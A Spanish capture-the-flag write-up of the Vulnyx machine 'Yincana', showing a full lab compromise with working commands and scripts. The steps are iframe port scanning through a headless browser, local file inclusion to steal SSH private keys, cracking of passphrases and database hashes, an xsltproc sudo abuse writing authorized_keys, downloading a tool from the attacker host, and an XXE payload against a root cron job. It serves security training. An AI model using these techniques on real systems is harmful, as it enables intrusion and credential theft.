

# Writeup: Yincana (Vulnyx — Difícil)

Yincana es una máquina **Difícil** que simula un servidor Linux con un servicio web Apache que permite a los usuarios enviar URLs para que sean analizadas por un navegador sin cabeza (*headless browser*). El recorrido comienza con el descubrimiento de la máquina en la red local y el escaneo de puertos, que revela únicamente un servidor Apache. A través de un formulario web, se descubre que el servidor visita las URLs enviadas usando **Puppeteer** con Chrome Headless, lo que permite enumerar puertos internos mediante iframes y explotar un servicio interno en el puerto 7001 vulnerable a **Local File Inclusion (LFI)**. Con el LFI, se extraen claves privadas SSH de los usuarios del sistema, se obtiene acceso como `jazmin`, y posteriormente se escalan privilegios hasta `manel` mediante `xsltproc`. Finalmente, se abusa de un **cron job** que transforma un archivo XML con `xsltproc` para inyectar una **entidad externa XML (XXE)** y leer la flag de `root`.

---

## Fase 1: Descubrimiento

Realizamos un escaneo de red local con `arp-scan` para descubrir hosts activos:

```bash
sudo arp-scan -l
```

**Resultado:**

```
Interface: eth0, type: EN10MB, MAC: 08:00:27:5a:87:bc, IPv4: 192.168.1.10
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.1     10:07:1d:92:cf:98       Fiberhome Telecommunication Technologies Co.,LTD
192.168.1.4     50:bb:b5:ab:8c:0c       (Unknown)
192.168.1.61    08:00:27:1d:1e:3a       PCS Systemtechnik GmbH
192.168.1.13    46:ac:03:b8:b4:30       (Unknown: locally administered)
192.168.1.7     6e:f0:a1:53:2e:37 (10:08:1d:92:cf:9c)   (Unknown: locally administered)
192.168.1.7     6e:f0:a1:53:2e:37 (10:08:1d:92:cf:9c)   (Unknown: locally administered) (DUP: 2)

6 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.579 seconds (99.26 hosts/sec). 5 responded
```

La MAC `08:00:27:1d:1e:3a` corresponde a **Oracle VirtualBox**, lo que indica que `192.168.1.61` es nuestra máquina objetivo.

---

## Fase 2: Reconocimiento

Realizamos un escaneo completo de puertos con Nmap:

```bash
sudo nmap -sS --min-rate 500 -p- -Pn -n -vv 192.168.1.61 -oG allPorts
```

**Resultado:**

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 08:00:27:1D:1E:3A (Oracle VirtualBox virtual NIC)
```

Realizamos un escaneo de servicios:

```bash
nmap -sCV -p 22,80 192.168.1.61 -oN targeted
```

**Resultados clave:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 cf:1f:14:65:4c:7d:b4:53:b5:39:4a:b6:c3:f0:d2:7a (ECDSA)
|_  256 90:c0:c4:7c:0f:01:f3:d6:de:7c:11:7c:92:b3:17:bc (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 08:00:27:1D:1E:3A (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Observaciones clave:**

- **Puerto 22 (SSH)**: OpenSSH 9.2p1 en Debian.
- **Puerto 80 (HTTP)**: Apache 2.4.59 con la página por defecto de Debian.

Añadimos el dominio al archivo `/etc/hosts`:

```bash
echo "192.168.1.61 yincana.nyx" | sudo tee -a /etc/hosts
```

Al acceder a `http://yincana.nyx/`, encontramos una página web sobre flores.


---

## Fase 3: Análisis del formulario web

### 3.1 Envío de una URL

La página principal contiene un formulario donde podemos enviar una URL para que sea analizada. Enviamos una petición con una URL apuntando a nuestro servidor:

```http
POST / HTTP/1.1
Host: yincana.nyx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Origin: http://yincana.nyx
Connection: keep-alive
Referer: http://yincana.nyx/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

titulo=test&descripcion=test&url=http%3A%2F%2F192.168.1.10%3A8000%2Ftest
```

**Resultado:**

```http
HTTP/1.1 302 Found
Date: Sun, 18 Oct 2026 17:14:25 GMT
Server: Apache/2.4.59 (Debian)
Location: ?msg=OK+p%C3%A1gina+guardada+en+la+base+de+datos+correctamente.#contact
Content-Length: 24
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Image saved successfully
```

**Hallazgo:** La URL ha sido guardada en la base de datos y aparentemente algún proceso la está visitando.

### 3.2 Captura de la visita con netcat

Para ver qué user-agent usa el servidor al visitar nuestra URL, usamos `nc` en lugar de un servidor HTTP:

```bash
nc -nlvp 8000
```

**Resultado:**

```
listening on [any] 8000 ...
connect to [192.168.1.10] from (UNKNOWN) [192.168.1.14] 58366
GET /test HTTP/1.1
Host: 192.168.1.10:8000
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: es-ES,es;q=0.9
```

**Hallazgo crítico:** El User-Agent `HeadlessChrome/125.0.0.0` confirma que el servidor utiliza un **navegador sin cabeza** (probablemente Puppeteer o Playwright) para visitar las URLs.
---

## Fase 4: Análisis de `image.php`

### 4.1 Descubrimiento de `image.php`

Al inspeccionar el HTML de la página principal, encontramos referencias a `image.php?id=N`:

```html
<figure></figure>
```

Accedemos a `http://yincana.nyx/image.php?id=1` y obtenemos una imagen de una de las páginas mostradas en la web.



### 4.2 Comportamiento de `image.php`

Al cambiar el ID por valores que no aparecen en el código fuente, no obtenemos resultado. Esto sugiere que `image.php` **almacena las capturas de pantalla** generadas por el navegador sin cabeza y las sirve por ID.

### 4.3 Prueba con un archivo de texto

Creamos un archivo `test.txt` en nuestro servidor y lo enviamos al formulario:

```bash
echo "Hola, este es un archivo de prueba" > test.txt
python3 -m http.server
```

Al visitar `http://yincana.nyx/image.php?id=14`, aparece el mensaje del archivo que enviamos. **Los IDs son asignados de forma secuencial** pero no inmediata, por lo que necesitamos enumerar el rango correcto.

---

## Fase 5: Enumeración de puertos internos mediante iframes

### 5.1 Creación de un script de iframes

Para descubrir qué servicios internos están escuchando en la máquina del navegador sin cabeza, creamos una página HTML con iframes apuntando a puertos comunes en `localhost`:

```html
<body>
    <script>
        var ports = [
            66, 80, 81, 443, 445, 457, 1080, 1100, 1241, 1352, 1433, 1434, 1521, 1944, 2301, 3000, 3128, 3306, 4000, 4001, 4002, 4100, 5000, 5432, 5800, 5801, 5802, 6346, 6347, 7001, 7002, 8000, 8080, 8443, 8888, 30821,
        ];
        for (let p = 0; p < ports.length; p++) {
            document.write('<div style="display:inline-block;width:40px;height:40px;margin:0;"><p style="margin:0;padding:0;">' + ports[p] + '</p>');
            document.write('<iframe src="http://localhost:' + ports[p] + '" style="border:none;width:100%;height:20px;"></iframe>');
            document.write('</div>');
        }
    </script>
</body>
</html>
```

Levantamos un servidor HTTP para servir la página:

```bash
python3 -m http.server
```

**Resultado:**

```
192.168.1.14 - - [18/Oct/2026 14:01:35] "GET /index.html HTTP/1.1" 200 -
```

### 5.2 Enumeración de IDs para encontrar la captura

Como los IDs de `image.php` son secuenciales pero no inmediatos, creamos un script en Python para enumerar los IDs y guardar las imágenes válidas:

```python
#!/usr/bin/env python3
"""
Yincana Image Enumerator
========================
Itera sobre IDs de `http://yincana.nyx/image.php?id=N` y guarda las imágenes
válidas, descartando respuestas vacías o de error.

Uso:
    python yincana_scan.py                    # escanea IDs 1..100
    python yincana_scan.py --start 1 --end 500
    python yincana_scan.py --start 1 --end 100 --threads 10
    python yincana_scan.py --url http://otro.host/img.php?id=  # URL custom
"""

import argparse
import os
import sys
import time
from concurrent.futures import ThreadPoolExecutor, as_completed
from urllib.request import urlopen, Request
from urllib.error import URLError, HTTPError

# ---------------------------------------------------------------------------
# Configuración por defecto
# ---------------------------------------------------------------------------
DEFAULT_URL = "http://yincana.nyx/image.php?id="
DEFAULT_START = 1
DEFAULT_END = 100
DEFAULT_THREADS = 5
DEFAULT_TIMEOUT = 10
MIN_VALID_BYTES = 1024   # ignora respuestas < 1 KB (errores/páginas vacías)
OUTPUT_DIR = "images_yincana"


def fetch_image(url_id: str, timeout: int) -> tuple[bool, bytes, str]:
    """
    Descarga una imagen por ID.
    Devuelve (ok, contenido, content_type).
    ok=False si la respuesta es vacía, error o demasiado pequeña.
    """
    try:
        req = Request(url_id, headers={"User-Agent": "Mozilla/5.0 (YincanaScanner)"})
        with urlopen(req, timeout=timeout) as resp:
            data = resp.read()
            ctype = resp.headers.get("Content-Type", "")
            if len(data) < MIN_VALID_BYTES:
                return False, b"", ctype
            return True, data, ctype
    except (HTTPError, URLError, TimeoutError, ConnectionError):
        return False, b"", ""
    except Exception:
        return False, b"", ""


def guess_extension(content_type: str, data: bytes) -> str:
    """Adivina la extensión por Content-Type o magic bytes."""
    if "jpeg" in content_type or "jpg" in content_type:
        return ".jpg"
    if "png" in content_type:
        return ".png"
    if "gif" in content_type:
        return ".gif"
    if "webp" in content_type:
        return ".webp"
    if "svg" in content_type:
        return ".svg"
    if data.startswith(b"\xff\xd8\xff"):
        return ".jpg"
    if data.startswith(b"\x89PNG"):
        return ".png"
    if data.startswith(b"GIF8"):
        return ".gif"
    if data[:4] == b"RIFF" and data[8:12] == b"WEBP":
        return ".webp"
    return ".bin"


def scan_id(base_url: str, id_: int, timeout: int, out_dir: str) -> dict:
    """Escanea una sola ID. Devuelve un dict con el resultado."""
    url = f"{base_url}{id_}"
    ok, data, ctype = fetch_image(url, timeout)

    result = {
        "id": id_,
        "url": url,
        "ok": ok,
        "size": len(data),
        "content_type": ctype,
        "saved_as": None,
    }

    if ok:
        ext = guess_extension(ctype, data)
        filename = f"{out_dir}/id_{id_:04d}{ext}"
        with open(filename, "wb") as f:
            f.write(data)
        result["saved_as"] = filename

    return result


def main():
    parser = argparse.ArgumentParser(
        description="Enumerador de imágenes para yincana.nyx"
    )
    parser.add_argument("--url", default=DEFAULT_URL,
                        help=f"URL base con ?id= (default: {DEFAULT_URL})")
    parser.add_argument("--start", type=int, default=DEFAULT_START,
                        help=f"ID inicial (default: {DEFAULT_START})")
    parser.add_argument("--end", type=int, default=DEFAULT_END,
                        help=f"ID final inclusivo (default: {DEFAULT_END})")
    parser.add_argument("--threads", type=int, default=DEFAULT_THREADS,
                        help=f"Hilos concurrentes (default: {DEFAULT_THREADS})")
    parser.add_argument("--timeout", type=int, default=DEFAULT_TIMEOUT,
                        help=f"Timeout por request en s (default: {DEFAULT_TIMEOUT})")
    parser.add_argument("--out", default=OUTPUT_DIR,
                        help=f"Directorio de salida (default: {OUTPUT_DIR})")
    args = parser.parse_args()

    os.makedirs(args.out, exist_ok=True)

    ids = list(range(args.start, args.end + 1))
    total = len(ids)
    found = 0
    failed = 0
    start_time = time.time()

    print(f"[*] Escaneando IDs {args.start}-{args.end} ({total} total)")
    print(f"[*] URL base: {args.url}")
    print(f"[*] Hilos: {args.threads}  |  Salida: {args.out}/")
    print("-" * 60)

    with ThreadPoolExecutor(max_workers=args.threads) as pool:
        futures = {
            pool.submit(scan_id, args.url, i, args.timeout, args.out): i
            for i in ids
        }
        for fut in as_completed(futures):
            res = fut.result()
            if res["ok"]:
                found += 1
                print(f"  [+] ID {res['id']:>4}  OK   "
                      f"{res['size']:>8} bytes  {res['content_type']:<20}  "
                      f"-> {res['saved_as']}")
            else:
                failed += 1

    elapsed = time.time() - start_time
    print("-" * 60)
    print(f"[*] Completado en {elapsed:.1f}s")
    print(f"[*] Total IDs: {total}  |  Encontrados: {found}  |  Vacíos/Error: {failed}")
    print(f"[*] Imágenes guardadas en: {os.path.abspath(args.out)}/")

    if found:
        print("\n[+] IDs con contenido:")
        for fname in sorted(os.listdir(args.out)):
            print(f"    {args.out}/{fname}")


if __name__ == "__main__":
    try:
        main()
    except KeyboardInterrupt:
        print("\n[!] Interrumpido por el usuario")
        sys.exit(130)
```

**Ejecución:**

```bash
python3 yincana-scan.py
```

**Resultado:**

```
[*] Escaneando IDs 1-100 (100 total)
[*] URL base: http://yincana.nyx/image.php?id=
[*] Hilos: 5  |  Salida: images_yincana/
------------------------------------------------------------
  [+] ID 17  OK    XXXXX bytes  image/png;  -> images_yincana/id_0017.png
------------------------------------------------------------
[*] Completado en X.Xs
[*] Total IDs: 100  |  Encontrados: 1  |  Vacíos/Error: 99
```

Al abrir la imagen `id_0017.png`, vemos que **el puerto 80 y el puerto 7001 aparecen marcados**, mientras que el resto de puertos no respondieron. Esto confirma que el servicio interno en el puerto 7001 está activo en la máquina del navegador sin cabeza.

### 5.3 Análisis del puerto 7001

Ahora que sabemos que el puerto 7001 responde, creamos un iframe específico para inspeccionarlo:

```html
<!DOCTYPE html>
<html>
<body>
    <script>
        document.write('<iframe src="http://localhost:7001" style="border:none;width:100%;height:100vh;"></iframe>');
    </script>
</body>
</html>
```

La imagen generada muestra el mensaje: **"Need url parameter"**. Esto indica que el servicio requiere un parámetro `url`.

Añadimos el parámetro `url` con `file:///etc/passwd`:

```html
<!DOCTYPE html>
<html>
<body>
    <script>
        document.write('<iframe src="http://localhost:7001?id=200&url=file:///etc/passwd" style="border:none;width:100%;height:100vh;"></iframe>');
    </script>
</body>
</html>
```

La imagen generada muestra el archivo `/etc/passwd`. Esto confirma que el servicio en el puerto 7001 es vulnerable a **Local File Inclusion (LFI)** y que podemos leer archivos del sistema.

**Explicación:** El servicio interno en el puerto 7001 parece ser el encargado de generar las capturas de pantalla. Acepta un parámetro `url` (que puede ser una URL HTTP o una ruta `file://`) y un parámetro `id` (que identifica la captura). Al usar `file:///etc/passwd`, el servicio lee el archivo local y lo incluye en la respuesta.

---

## Fase 6: Extracción de claves SSH

### 6.1 Obtención de la lista de usuarios

A través del LFI en el puerto 7001, leemos `/etc/passwd` y obtenemos la lista de usuarios del sistema. Creamos un archivo `users.txt` con los usuarios que tienen shell:

```
root
jazmin
margarita
manel
...
```

### 6.2 Script de enumeración de claves SSH

Creamos un script en Python que, para cada usuario, envía una petición a la aplicación principal con un iframe apuntando a `file:///home/<user>/.ssh/id_rsa` y el ID correspondiente:

```python
#!/usr/bin/python3

import os
import requests
from bs4 import BeautifulSoup
import re
import signal
from pwn import *


#Captura del ctrl+c
def signal_handler(sig, frame):
    print('[*] Saliendo...')
    os.system("rm index.html")
    sys.exit(0)

signal.signal(signal.SIGINT, signal_handler)

#Variables
url = 'http://yincana.nyx'
data = f"titulo=a&descripcion=a&url=http%3A%2F%2F192.168.1.10:8000%2F"
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
}
number = 3000

#Cargamos la estructura del html
html_content = """
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title></title>
</head>

<body>
    <iframe src="" width="1100" height="1100"></iframe>
</body>

</html>
"""

#Si no existe el archivo se crea
if not os.path.exists("index.html"):
    with open("index.html", "w") as file:
        file.write(html_content)

#Barra de progreso
p1 = log.progress("FUZZ")

# Leer la lista de usuarios desde el archivo
with open("users.txt", "r") as users_file:
    users = users_file.read().splitlines()

# Iterar sobre usuarios y números simultáneamente usando enumerate
for i, user in enumerate(users):

    #Paeseamos el html
    with open("index.html","r") as file:
        soup = BeautifulSoup(file,"html.parser")

        #Buscamos la etiqueta <iframe>
        iframe = soup.find("iframe")

        #Remplazamos el valor en busca del archivo id_rsa de cada usuario
        iframe['src'] = f"http://localhost:7001?url=file:///home/{user}/.ssh/id_rsa&id={number}"

        #Actualizamos la barra de progreso
        p1.status(iframe['src'])

        #Guardamos el index.html
        with open("index.html","w") as file:
            file.write(str(soup))

        #Enviamos la peticion
        response = requests.post(url, headers=headers, data=data)

        #Incrementamos el ID
        number += 1

os.system("rm index.html")
```

**Ejecución:**

```bash
python3 id_rsa_enum.py
```

**Resultado:**

```
[▗] FUZZ: http://localhost:7001?url=file:///home/orquidea/.ssh/id_rsa&id=3043
```

Enumeramos los IDs generados con el script anterior:

```bash
python3 yincana-scan.py --start 3000 --end 3044
```

**Resultado:**

```
[*] Escaneando IDs 3000-3044 (45 total)
[*] URL base: http://yincana.nyx/image.php?id=
[*] Hilos: 5  |  Salida: images_yincana/
------------------------------------------------------------
  [+] ID 3036  OK     266677 bytes  image/png;            -> images_yincana/id_3036.png
------------------------------------------------------------
[*] Completado en 0.1s
[*] Total IDs: 45  |  Encontrados: 1  |  Vacíos/Error: 44
[*] Imágenes guardadas en: /home/kali/Projects/Yincana/content/images_yincana/
```

**Hallazgo:** La imagen `id_3036.png` contiene una clave privada SSH. El usuario dueño de la clave es **`jazmin`** (aunque inicialmente el script sugería `jacinto`, la lista real de usuarios reveló que era `jazmin`).

### 6.3 Conversión de la imagen a texto

La clave SSH está en formato de imagen PNG. Usamos OCR (o un modelo de IA) para extraer el texto. Tras varios intentos, obtenemos la clave privada en formato OpenSSH.

---

## Fase 7: Acceso como `jazmin`

### 7.1 Intento de conexión SSH

```bash
ssh jazmin@yincana.nyx -i id_rsa
```

**Resultado:**

```
Enter passphrase for key 'id_rsa':
```

La clave privada está protegida con una passphrase.

### 7.2 Crackeo de la passphrase

Usamos `ssh2john` para extraer el hash y `john` para crackearlo:

```bash
ssh2john id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Resultado:**

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 7 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
flowers          (id_rsa)
1g 0:00:00:04 DONE (2026-10-18 20:28) 0.2020g/s 67.87p/s 67.87c/s 67.87C/s 50cent..olivia
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

La passphrase es **`flowers`**.

### 7.3 Conexión SSH

```bash
ssh jazmin@yincana.nyx -i id_rsa
```

**Resultado:**

```bash
jazmin@yincana:~$ id
uid=1037(jazmin) gid=1037(jazmin) grupos=1037(jazmin)
```

Accedemos como **`jazmin`**.

---

## Fase 8: Enumeración y credenciales de base de datos

### 8.1 Configuración de Apache

```bash
cat /etc/apache2/sites-available/yincana.nyx.conf
```

**Resultado:**

```apache
<VirtualHost *:80>
        ServerAdmin webmaster@yincana.nyx
        ServerName yincana.nyx
        ServerAlias www.yincana.nyx
        DocumentRoot /var/www/yincana.nyx/public

        SetEnv DB_HOST "localhost"
        SetEnv DB_USER "dbusryinc"
        SetEnv DB_PASS "vXbSrUg8bJy37d7BMtm2"
        SetEnv DB_NAME "dbyinc"
</VirtualHost>
```

**Hallazgo crítico:** Las credenciales de la base de datos están en texto plano en la configuración de Apache.

### 8.2 Conexión a MariaDB

```bash
mysql -u dbusryinc -pvXbSrUg8bJy37d7BMtm2
```

**Resultado:**

```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 122
Server version: 10.11.6-MariaDB-0+deb12u1 Debian 12
```

Enumeramos las bases de datos:

```sql
show databases;
```

**Resultado:**

```
+--------------------+
| Database           |
+--------------------+
| dbyinc             |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
```

Accedemos a la base de datos `dbyinc`:

```sql
use dbyinc;
show tables;
```

**Resultado:**

```
+------------------+
| Tables_in_dbyinc |
+------------------+
| pages            |
| users            |
+------------------+
```

Extraemos los usuarios:

```sql
select * from users;
```

**Resultado:**

```
+----+-----------+------------------------------------------------------------------+
| id | user      | password                                                         |
+----+-----------+------------------------------------------------------------------+
|  1 | rosa      | c1f5e137c6c1f916df74346b07babf75eae28aae6ed7feb97acb4d8ecc100be6 |
|  2 | jazmin    | aad1f18034ad4a5dae8bbe64455d207b0034388219e2a3d701e75e0424d1f8d1 |
|  3 | margarita | 810c4dc129e30e975c84e9b8f968fcc3e44316c41d196eb037c2100cd69691a8 |
|  4 | narciso   | c6a08c5263923938cabcd1880ab080d7b3b82c21ddc0435da870344b39a6624a |
+----+-----------+------------------------------------------------------------------+
```

Los hashes son **SHA-256 sin salt**.

### 8.3 Crackeo de los hashes

```bash
john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt hash2.txt
```

**Resultado:**

```
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=7
Will run 7 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
flores           (?)
1g 0:00:00:02 DONE (2026-10-18 22:11) 0.3521g/s 5050Kp/s 5050Kc/s 15191KC/s """anokax"..*7¡Vamos!
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

Uno de los hashes corresponde a la contraseña **`flores`**. Probamos con los usuarios:

```bash
su margarita
```

**Resultado:**

```bash
$ id
uid=1042(margarita) gid=1042(margarita) grupos=1042(margarita)
```

Accedemos como **`margarita`**.

---

## Fase 9: Escalada a `manel` mediante `xsltproc`

### 9.1 Verificación de permisos sudo

```bash
sudo -l
```

**Resultado:**

```
Matching Defaults entries for margarita on yincana:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User margarita may run the following commands on yincana:
    (narciso) NOPASSWD: /bin/bash
    (manel) /usr/bin/xsltproc
```

**Hallazgo crítico:** `margarita` puede ejecutar `/usr/bin/xsltproc` como el usuario `manel`.

### 9.2 ¿Qué es `xsltproc`?

`xsltproc` es una herramienta de línea de comandos utilizada para procesar archivos XML con transformaciones XSLT. XSLT (Extensible Stylesheet Language Transformations) es un lenguaje utilizado para transformar documentos XML en otros formatos, como HTML, texto plano u otro XML.

**Vulnerabilidad:** `xsltproc` permite especificar un archivo de salida (`-o`) y un archivo XSLT de transformación. Si podemos controlar el contenido de la transformación y el archivo de salida, podemos escribir archivos arbitrarios con los permisos del usuario que ejecuta `xsltproc` (en este caso, `manel`).

### 9.3 Preparación del ataque

Generamos un par de claves SSH:

```bash
ssh-keygen -t ed25519 -f /home/kali/Projects/Yincana/id_rsa
```

Creamos un archivo XML de entrada con nuestra clave pública:

```bash
echo "<root><key>$(cat id_rsa.pub)</key></root>" > input.xml
```

Creamos un archivo XSLT que extrae la clave del XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:output method="text"/>
    <xsl:template match="/">
        <xsl:value-of select="/root/key"/>
    </xsl:template>
</xsl:stylesheet>
```

### 9.4 Ejecución del ataque

Ejecutamos `xsltproc` como `manel`, escribiendo el resultado en su archivo `authorized_keys`:

```bash
sudo -u manel xsltproc -o /home/manel/.ssh/authorized_keys transform.xsl input.xml
```

**Explicación:** `xsltproc` procesa el archivo `input.xml` con la transformación `transform.xsl` y escribe el resultado en `/home/manel/.ssh/authorized_keys`. Como la transformación extrae el contenido de `<key>` (nuestra clave pública), el archivo `authorized_keys` de `manel` queda con nuestra clave.

### 9.5 Conexión SSH como `manel`

```bash
ssh manel@yincana.nyx -i id_rsa
```

**Resultado:**

```bash
manel@yincana:~$ id
uid=1000(manel) gid=1000(manel) grupos=1000(manel),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),1051(backupchat)
```

Accedemos como **`manel`**. Pertenecemos al grupo `backupchat`.

---

## Fase 10: Escalada a `root` mediante XXE

### 10.1 Enumeración de archivos del grupo `backupchat`

```bash
find / -group backupchat 2>/dev/null
```

**Resultado:**

```
/home/mensajes.xml
```

Leemos el archivo:

```bash
cat /home/mensajes.xml
```

**Resultado:** Es un archivo XML con mensajes de chat. También encontramos `mensajes_backup.xml` en el directorio de `manel`, que es idéntico.

### 10.2 Descubrimiento del cron job

Al revisar `/var/www/html/`, encontramos `chat.html`, que se actualiza cada minuto:

```bash
cat /var/www/html/chat.html
```

**Resultado:** Es el mismo chat, pero con una marca de tiempo actualizada.

Para descubrir qué proceso actualiza el archivo, usamos **pspy64**:

```bash
curl -O http://192.168.1.10:8000/pspy64
chmod +x pspy64
./pspy64
```

**Resultado:**

```
2026/10/20 21:33:01 CMD: UID=0     PID=1747   | /bin/sh -c /bin/bash -c '/usr/bin/xsltproc --stringparam current-date "`date`" -o /var/www/html/chat.html /root/chat.xsl /home/mensajes.xml >> /tmp/test.log'
```

**Hallazgo crítico:** Un **cron job ejecutado como `root`** procesa `/home/mensajes.xml` con `/root/chat.xsl` y escribe el resultado en `/var/www/html/chat.html`. Como `manel` puede modificar `/home/mensajes.xml` (pertenece al grupo `backupchat`), podemos inyectar contenido malicioso.

### 10.3 Ataque XXE

Creamos un archivo XML malicioso con una **entidad externa (XXE)** que lee `/root/root.txt`:

```bash
cat > /tmp/malicioso.xml << 'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE chat [
  <!ENTITY xxe SYSTEM "file:///root/root.txt">
]>
<chat>
    <message user="Hacker" color="#ff0000">FLAG: &xxe;</message>
</chat>
EOF
```

Copiamos el archivo a `/home/mensajes.xml`:

```bash
cp /tmp/malicioso.xml /home/mensajes.xml
```

**Explicación:** La entidad `&xxe;` se resuelve a la lectura del archivo `/root/root.txt`. Cuando `xsltproc` procesa el XML como `root`, la entidad se expande y el contenido del archivo se incluye en la salida.

### 10.4 Obtención de la flag

Esperamos a que el cron job se ejecute (cada minuto) y leemos el resultado:

```bash
cat /var/www/html/chat.html
```

**Resultado:**

```html
<body><div class="chat-container">
<h3>Backup mar 20 oct 2026 21:49:01 CEST</h3>
<div class="message user-Hacker">
<strong>Hacker:</strong>FLAG: 11d39f0204cd2e6ba4ab9dd7b99fafe6
-- Congratulations! 
Give some flowers to celebrate now, don't waste a moment. 
-- Felicidades! 
Regala unas flores para celebrarlo ahora mismo, no pierdas ni un momento.
-- Felicitats!
Regala unes flors per celebrar-ho ara mateix, no perdis ni un moment.
</div>
```

Obtenemos la **flag de root**.

---

## 📌 Conclusión

Yincana es una máquina **Difícil** que combina:

1. **Descubrimiento de red** con `arp-scan` y Nmap.
2. **Formulario web** que envía URLs a un navegador sin cabeza (Puppeteer).
3. **Enumeración de puertos internos** mediante iframes.
4. **Local File Inclusion (LFI)** en un servicio interno en el puerto 7001.
5. **Extracción de claves SSH** de usuarios del sistema.
6. **Crackeo de passphrase** de la clave SSH con John the Ripper.
7. **Credenciales de base de datos** en la configuración de Apache.
8. **Crackeo de hashes SHA-256** de la base de datos.
9. **Escalada mediante `xsltproc`** para escribir la clave SSH en `authorized_keys`.
10. **Abuso de un cron job** que procesa XML como `root`.
11. **Ataque XXE** para leer `/root/root.txt`.

---

## 📚 Lecciones aprendidas

1. **Los formularios que aceptan URLs pueden ser vectores de ataque**  
   La aplicación permitía enviar URLs que eran visitadas por un navegador sin cabeza. Esto permitió enumerar puertos internos y acceder a servicios que no estaban expuestos externamente. Los formularios que aceptan URLs deben validar el destino y bloquear direcciones privadas.

2. **Los servicios internos pueden ser vulnerables incluso si no están expuestos**  
   El servicio en el puerto 7001 era vulnerable a LFI y solo era accesible desde el propio servidor. Un atacante con acceso al servidor (a través del navegador sin cabeza) puede explotarlo. Los servicios internos también deben ser auditados y protegidos.

3. **Las credenciales no deben almacenarse en texto plano en archivos de configuración**  
   Las credenciales de la base de datos estaban en la configuración de Apache. Deben almacenarse en variables de entorno o en un gestor de secretos.

